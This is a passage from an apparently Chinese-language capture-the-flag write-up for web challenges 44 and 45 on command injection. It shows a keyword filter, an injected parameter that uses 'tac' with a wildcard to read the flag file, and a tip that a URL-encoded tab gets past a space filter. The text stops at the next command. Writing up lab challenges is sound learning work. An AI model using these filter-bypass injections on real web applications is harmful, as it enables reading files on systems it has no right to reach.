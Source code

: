 
过滤了

```
;|cat|flag
```

构建命令

```
?c=tac fla*%26
```

得到flag

![image-20240120124739973](image/image-20240120124739973.png)

------

#### web45

分析

![image-20240120124838873](image/image-20240120124838873.png)

过滤了

```
\;|cat|flag
```

比上一题多过滤了;和空格，但是并没有影响，使用%09进行绕过，%09是tab的url编码

构建命令

